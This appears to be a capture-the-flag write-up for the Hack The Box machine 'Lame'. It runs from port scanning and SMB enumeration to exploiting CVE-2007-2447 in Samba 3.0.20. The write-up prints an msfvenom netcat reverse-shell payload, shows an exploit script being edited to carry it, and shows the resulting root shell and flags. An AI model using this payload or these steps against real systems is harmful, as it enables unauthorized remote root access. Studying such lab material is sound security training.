



# Resolution summary

>[!summary]
>- **Samba 3.0.20** is vulnerable to a **RCE** (Samba "username map script" Command Execution - **CVE-2007-2447** )
>- Samba runs as root, no privilege escalation is required

## Improved skills

- Exploit Samba Remote Command Execution
- Fixing exisiting exploits

## Used tools

- nmap
- searchsploit
- msfvenom

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Lame]
└─$ sudo nmap -p- 10.10.10.3 -sS -T3 -oN scans/all-ports.txt -v  
...
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
...
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Lame]
└─$ sudo nmap 10.10.10.3 -p21,22,139,445,3632 -sV -sC -sT -Pn -oN scans/open-tcp-ports.txt
...
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.24
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h07m16s, deviation: 2h49m43s, median: 7m15s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-04-26T05:54:15-04:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
...
```

# Enumeration

## Port 21 - FTP (vsFTPd 2.3.4)

Anonymous FTP login is allowed:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Lame]
└─$ ftp -p 10.10.10.3 
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
227 Entering Passive Mode (10,10,10,3,126,103).
150 Here comes the directory listing.
226 Directory send OK.
```

Enumerated known vulnerabilities:



## Port 139 & port 445- NetBIOS & Samba smbd 3.X - 4.X

Deeper enumeration of Samba using nmap scripting engine:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Lame]
└─$ sudo nmap 10.10.10.3 -p139,445 -sV -sT -Pn -oN scans/p445-enum.txt --script=smb-enum*
...
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Host script results:
|_smb-enum-sessions: ERROR: Script execution failed (use -d to debug)
| smb-enum-shares:
|   account_used: <blank>
|   \\10.10.10.3\ADMIN$:
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.10.10.3\IPC$:
|     Type: STYPE_IPC
|     Comment: IPC Service (lame server (Samba 3.0.20-Debian))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|   \\10.10.10.3\opt:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: <none>
|   \\10.10.10.3\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|   \\10.10.10.3\tmp:
|     Type: STYPE_DISKTREE
|     Comment: oh noes!
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|_    Anonymous access: READ/WRITE
| smb-enum-users:
|   LAME\backup (RID: 1068)
|     Full name:   backup
|     Flags:       Normal user account, Account disabled
|   LAME\bin (RID: 1004)
|     Full name:   bin
|     Flags:       Normal user account, Account disabled
|   LAME\bind (RID: 1210)
|     Flags:       Normal user account, Account disabled
|   LAME\daemon (RID: 1002)
|     Full name:   daemon
|     Flags:       Normal user account, Account disabled
|   LAME\dhcp (RID: 1202)
|     Flags:       Normal user account, Account disabled
|   LAME\distccd (RID: 1222)
|     Flags:       Normal user account, Account disabled
|   LAME\ftp (RID: 1214)
|     Flags:       Normal user account, Account disabled
|   LAME\games (RID: 1010)
|     Full name:   games
|     Flags:       Normal user account, Account disabled
|   LAME\gnats (RID: 1082)
|     Full name:   Gnats Bug-Reporting System (admin)
|     Flags:       Normal user account, Account disabled
|   LAME\irc (RID: 1078)
|     Full name:   ircd
|     Flags:       Normal user account, Account disabled
|   LAME\klog (RID: 1206)
|     Flags:       Normal user account, Account disabled
|   LAME\libuuid (RID: 1200)
|     Flags:       Normal user account, Account disabled
|   LAME\list (RID: 1076)
|     Full name:   Mailing List Manager
|     Flags:       Normal user account, Account disabled
|   LAME\lp (RID: 1014)
|     Full name:   lp
|     Flags:       Normal user account, Account disabled
|   LAME\mail (RID: 1016)
|     Full name:   mail
|     Flags:       Normal user account, Account disabled
|   LAME\man (RID: 1012)
|     Full name:   man
|     Flags:       Normal user account, Account disabled
|   LAME\msfadmin (RID: 3000)
|     Full name:   msfadmin,,,
|     Flags:       Normal user account
|   LAME\mysql (RID: 1218)
|     Full name:   MySQL Server,,,
|     Flags:       Normal user account, Account disabled
|   LAME\news (RID: 1018)
|     Full name:   news
|     Flags:       Normal user account, Account disabled
|   LAME\nobody (RID: 501)
|     Full name:   nobody
|     Flags:       Normal user account, Account disabled
|   LAME\postfix (RID: 1212)
|     Flags:       Normal user account, Account disabled
|   LAME\postgres (RID: 1216)
|     Full name:   PostgreSQL administrator,,,
|     Flags:       Normal user account, Account disabled
|   LAME\proftpd (RID: 1226)
|     Flags:       Normal user account, Account disabled
|   LAME\proxy (RID: 1026)
|     Full name:   proxy
|     Flags:       Normal user account, Account disabled
|   LAME\root (RID: 1000)
|     Full name:   root
|     Flags:       Normal user account, Account disabled
|   LAME\service (RID: 3004)
|     Full name:   ,,,
|     Flags:       Normal user account, Account disabled
|   LAME\sshd (RID: 1208)
|     Flags:       Normal user account, Account disabled
|   LAME\sync (RID: 1008)
|     Full name:   sync
|     Flags:       Normal user account, Account disabled
|   LAME\sys (RID: 1006)
|     Full name:   sys
|     Flags:       Normal user account, Account disabled
|   LAME\syslog (RID: 1204)
|     Flags:       Normal user account, Account disabled
|   LAME\telnetd (RID: 1224)
|     Flags:       Normal user account, Account disabled
|   LAME\tomcat55 (RID: 1220)
|     Flags:       Normal user account, Account disabled
|   LAME\user (RID: 3002)
|     Full name:   just a user,111,,
|     Flags:       Normal user account
|   LAME\uucp (RID: 1020)
|     Full name:   uucp
|     Flags:       Normal user account, Account disabled
|   LAME\www-data (RID: 1066)
|     Full name:   www-data
|_    Flags:       Normal user account, Account disabled
...
```

Enumerated samba shares:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Lame/exploit]
└─$ nano /etc/samba/smb.conf
...
[global]                                              
client min protocol = LANMAN1
...
min protocol = SMB1

┌──(kali㉿kali)-[~/…/HTB/box/Lame/exploit]
└─$ smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Enumerated Samba 3.0.20-Debian exploits:



# Exploitation

## Samba "username map script" Command Execution (CVE-2007-2447)

[exploit-smb-3.0.20.py](https://raw.githubusercontent.com/macha97/exploit-smb-3.0.20/master/exploit-smb-3.0.20.py)

Generated the revers shell shellcode:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Lame/exploit]
└─$ msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.24 LPORT=443 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 96 bytes
Final size of python file: 483 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x68"
buf += b"\x74\x6b\x74\x6b\x6d\x3b\x20\x6e\x63\x20\x31\x30\x2e"
buf += b"\x31\x30\x2e\x31\x34\x2e\x32\x34\x20\x34\x34\x33\x20"
buf += b"\x30\x3c\x2f\x74\x6d\x70\x2f\x68\x74\x6b\x74\x6b\x6d"
buf += b"\x20\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f"
buf += b"\x74\x6d\x70\x2f\x68\x74\x6b\x74\x6b\x6d\x20\x32\x3e"
buf += b"\x26\x31\x3b\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x68"
buf += b"\x74\x6b\x74\x6b\x6d"
```

Fixed the exploit using custom shellcode:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Lame/exploit]
└─$ nano exploit-smb-3.0.20.py                                                                          
...
# msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.24 LPORT=443 -f python
buf =  ""
buf += "\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x68"
buf += "\x74\x6b\x74\x6b\x6d\x3b\x20\x6e\x63\x20\x31\x30\x2e"
buf += "\x31\x30\x2e\x31\x34\x2e\x32\x34\x20\x34\x34\x33\x20"
buf += "\x30\x3c\x2f\x74\x6d\x70\x2f\x68\x74\x6b\x74\x6b\x6d"
buf += "\x20\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f"
buf += "\x74\x6d\x70\x2f\x68\x74\x6b\x74\x6b\x6d\x20\x32\x3e"
buf += "\x26\x31\x3b\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x68"
buf += "\x74\x6b\x74\x6b\x6d"
...
```

Executed the exploit and obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Lame/exploit]
└─$ sudo python3 exploit-smb-3.0.20.py
```

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Lame]
└─$ sudo nc -nlvp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.3] 57073
whoami
root
whoami && hostname && cat /root/root.txt && ifconfig -a
root
lame
57e48e28cd6902a8302a4d3f4f597e70
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:74:b5  
          inet addr:10.10.10.3  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:74b5/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:74b5/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:280071 errors:0 dropped:0 overruns:0 frame:0
          TX packets:13360 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:18136006 (17.2 MB)  TX bytes:2507820 (2.3 MB)
          Interrupt:19 Base address:0x2024 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:2977 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2977 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1462825 (1.3 MB)  TX bytes:1462825 (1.3 MB)
```



# Trophy

>[!quote]
>As a young boy, I was taught in high school that Hacking was cool.
>
>\- Kevin Mitnick

>[!success]
>**User.txt**
>530ba84b94a494c5a1152c4b9241a8ec

>[!success]
>**Root.txt**
>57e48e28cd6902a8302a4d3f4f597e70

